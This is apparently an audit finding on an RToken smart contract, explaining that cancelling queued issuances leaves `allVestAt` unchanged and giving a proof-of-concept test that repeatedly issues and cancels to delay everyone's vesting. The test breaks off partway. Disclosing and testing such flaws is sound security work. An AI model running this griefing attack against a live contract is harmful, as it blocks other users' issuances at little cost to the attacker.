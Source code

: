 If a user decides that they do not want to do this vesting they can cancel pending items using `cancel`, which will return the deposited tokens to them.

However this cancel does not reduce the `allVestAt` state so later issuances will still be compared to this state.

Hence a malicious user can issue a lot of RTokens (possibly using a flash loan) to increase `allVestAt` and then cancel their queued issuance. Since this only costs gas this can be repeated to push `allVestAt` to a very large number effectively delaying all vesting for a very long time.

### Impact

A malicious user can delay issuances a very long time costing only gas.

### Proof of Concept

PoC test in `RToken.test.ts`:

```javascript
// based on 'Should allow the recipient to rollback minting'
it('large issuance and cancel griefs later issuances', async function () {
  const issueAmount: BigNumber = bn('5000000e18') // flashloan or rich

  // Provide approvals
  const [, depositTokenAmounts] = await facade.callStatic.issue(rToken.address, issueAmount)
  await Promise.all(
    tokens.map((t, i) => t.connect(addr1).approve(rToken.address, depositTokenAmounts[i]))
  )

  await Promise.all(
    tokens.map((t, i) => t.connect(addr2).approve(rToken.address, ethers.constants.MaxInt256))
  )

  // Get initial balances
  const initialRecipientBals = await Promise.all(tokens.map((t) => t.balanceOf(addr2.address)))

  // Issue a lot of rTokens
  await rToken.connect(addr1)['issue(address,uint256)'](addr2.address, issueAmount)

  // Cancel
  await expect(rToken.connect(addr2).cancel(1, true))
    .to.emit(rToken, 'IssuancesCanceled')
    .withArgs(addr2.address, 0, 1, issueAmount)

  // repeat to make allVestAt very large
  for (let j = 0; j < 100; j++) {
    await rToken.connect(addr2)['issue(address,uint256)'](addr2.address, issueAmount)

    await expect(rToken.connect(addr2).cancel(1, true))
      .to.emit(rToken, 'IssuancesCanceled')
      .withArgs(addr2.address, 0, 1, issueAmount)
  }

  // Check balances returned to the recipient, addr2
  await Promise.all(
    tokens.map(async (t, i) => {
      const expectedBalance = initialRecipientBals[i].add(depositTokenAmounts[i])
      expect(await t.balanceOf(addr2.address)).to.equal(expectedBalance)
    })
  )
  expect(await facadeTest.callStatic.totalAssetValue(rToken.address)).to.equal(0)

  const instantIssue: BigNumber = MIN_ISSUANCE_PER_BLOCK.sub(1)
  await Promise.all(tokens.map((t) => t.connect(addr1).approve(rToken.address, initialBal)))

```